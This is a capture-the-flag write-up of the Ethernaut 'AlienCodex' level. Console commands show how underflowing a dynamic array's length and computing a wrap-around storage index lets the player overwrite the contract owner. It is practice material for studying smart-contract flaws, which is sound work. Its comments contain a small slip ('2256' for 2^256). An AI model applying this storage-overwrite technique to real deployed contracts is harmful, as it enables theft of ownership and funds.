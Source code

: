 ## Ethernaut-solution

### 19. AlienCodex
```
>await contract.abi
(11) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]
0: {constant: false, inputs: Array(2), name: 'revise', outputs: Array(0), payable: false, …}
1: {constant: true, inputs: Array(0), name: 'contact', outputs: Array(1), payable: false, …}
2: {constant: false, inputs: Array(0), name: 'retract', outputs: Array(0), payable: false, …}
3: {constant: false, inputs: Array(0), name: 'make_contact', outputs: Array(0), payable: false, …}
4: {constant: false, inputs: Array(0), name: 'renounceOwnership', outputs: Array(0), payable: false, …}
5: {constant: true, inputs: Array(0), name: 'owner', outputs: Array(1), payable: false, …}
6: {constant: true, inputs: Array(0), name: 'isOwner', outputs: Array(1), payable: false, …}
7: {constant: true, inputs: Array(1), name: 'codex', outputs: Array(1), payable: false, …}
8: {constant: false, inputs: Array(1), name: 'record', outputs: Array(0), payable: false, …}
9: {constant: false, inputs: Array(1), name: 'transferOwnership', outputs: Array(0), payable: false, …}
10: {anonymous: false, inputs: Array(2), name: 'OwnershipTransferred', type: 'event', constant: undefined, …}
length: 11
[[Prototype]]: Array(0)
```
```
>await contract.owner()
'0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'
```
```
>await contract.contact()
false
```
```
>await contract.make_contact()
{tx: '0xc223773398fefde346210b099f65cba6a0ed1ef1d1558a9d3034b16000f4423c', receipt: {…}, logs: Array(0)}
```
```
>await web3.eth.getStorageAt(contract.address, 0, console.log) //single slot with two items 
'0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272' //same contract owner -> da5b3
```
```
>await contract.contact()
true 
```

//Modify codex length to 2256 by invoking retract:
```
>await contract.retract() 
 {tx: '0xeec2b183b5e29f05a21827df4fe47f0a425ea04a2757e54b03cebbc11e6ae8ee', receipt: {…}, logs: Array(0)}
```

Keccak256(k . p) 

k = key. value corresponding to the mapping 

p = position. storing the array length 

// starting with slot 1, which is where the length. array is defined
```
>p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
'0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6'
```

//Converting hashed value to BigInt, we're able to subtract back to Slot 0 of the codex
```
>i = BigInt(2 ** 256) - BigInt(p)
35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

//Padding our address with 0's to meet the expected 32 byte length.
//Exploiting a flaw in the ABI specs - Doesn't validate that the length of the array matches the length of the payload 
```
>content = '0x' + '0'.repeat(24) + player.slice(2)
'0x000000000000000000000000F6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

//place our content into the owner array index location 
//our address location of the index which is sitting at the zero location and we're going to take ownership of it
```
>contract.revise(i, content, {from:player, gas:900000}) // i = index 
```

//Hack Success!! validate we're owner! 
```
>await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```